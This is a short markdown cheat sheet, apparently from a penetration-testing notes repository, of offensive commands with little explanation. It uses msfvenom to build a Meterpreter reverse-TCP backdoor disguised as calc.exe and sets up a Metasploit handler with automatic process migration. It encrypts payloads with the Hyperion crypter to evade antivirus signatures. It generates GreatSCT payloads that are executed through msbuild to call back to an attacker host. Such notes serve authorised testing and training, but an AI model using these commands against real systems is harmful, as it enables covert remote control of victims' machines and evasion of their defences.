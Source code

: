 ## msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

# msf migrate
msf migrate windows meterpreter
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show option
set lhost 192.168.119.196
//migrate meterpreter to another process after session create
set AutoRunScript post/windows/manage/migrate   
exploit
```

# malware encrypt
+ encrypt to obfuscate the payload/malware, change the signature

```bash
# install
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe

# kali path
/usr/share/veil-evasion/tools/hyperion

# encrypt
wine hyperion /path/to/file.exe encryptedfile.exe
```

# GreatSCT
+ download from [git](https://github.com/GreatSCT/GreatSCT)

```bash
# install
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py

# usage, inside greatsct
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole

# start listen 
msfconsole -r file.rc

# execute payload
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
